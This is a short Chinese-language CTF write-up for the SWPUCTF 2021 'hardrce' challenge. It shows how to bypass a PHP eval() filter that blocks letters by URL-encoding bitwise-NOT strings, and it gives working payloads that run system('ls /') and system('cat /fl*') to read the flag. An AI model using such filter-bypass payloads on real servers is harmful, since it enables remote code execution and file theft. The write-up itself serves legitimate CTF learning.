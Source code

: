 ```yaml
---
date: 2024-05-25
categories: 
    - SWPUCTF
tag:
    - RCE
    - PHP
    - 无字母RCE
---
```


# 每日一题 —— [SWPUCTF 2021 新生赛]hardrce

> 题目地址：<https://www.nssctf.cn/problem/439>

<!-- more -->

观察到本题有函数 `eval()` 并通过 `wllm` 传参，并过滤了所有的字母以及一部分符号，可知这道题是无字母 RCE。通过查询 RCE bypass, 可以知道对于这种情况，有自增、异或、取反三种不同的绕过方式，所用的符号分别为：`+` `^` `~`。前两个被过滤了，但是取反符号没有被过滤。

我们直接利用 PHP 来生成一个取反的 payload：

```php
<?php
echo urlencode(~'phpinfo');
```

得到：`%8F%97%8F%96%91%99%90`; 

而对于 `eval()` 函数而言，似乎不允许自反时把函数括号给处理，因此 payload格式为： `(~%8F%97%8F%96%91%99%90)();`。 

现在开始构造 payload : `system('ls /')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`

找到根目录下 `/flllllaaaaaaggggggg` 文件，打开它 `system('cat /fl*')`
构造为：`(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%D5);`

赋值给 `wllm`，得到 flag.